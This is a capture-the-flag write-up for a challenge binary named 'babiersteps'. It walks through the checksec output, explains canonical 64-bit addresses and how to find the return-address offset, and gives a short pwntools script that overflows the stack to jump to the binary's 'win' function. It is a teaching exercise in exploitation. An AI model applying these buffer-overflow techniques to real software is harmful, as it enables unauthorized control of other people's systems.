


## Checksec
```
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Full
```
We only care about the stack canary as we will be overflowing RIP to control execution flow, and thankfully It's disabled.

## Exploitation
### 1. RIP Control

We overflow the binary with a cyclic pattern, however, for this being a 64-bit binary we can't overflow RIP with a non-canonical address.


An address is said to be canonical in the 64-bit world when the upper 16 bits are copies of the 48th bit.


The easiest way to find the RIP offset without overflowing RIP is by breaking at the `ret` instruction and searching for our pattern in `rsp`.



<center>


</center>

### 2. Writing our exploit
Now we have all the pieces that we need to build our exploit, we will do the rest straight from pwntools.

```python
from pwn import *

context.binary = e = ELF("./babiersteps")
context.encoding = 'latin'

if args['REMOTE']:
    pass
else:
    io = e.process()

OFFSET = 120
io.clean()
io.fit(
    {120: e.sym.win}
)
io.interactive()
```



<center>


</center>
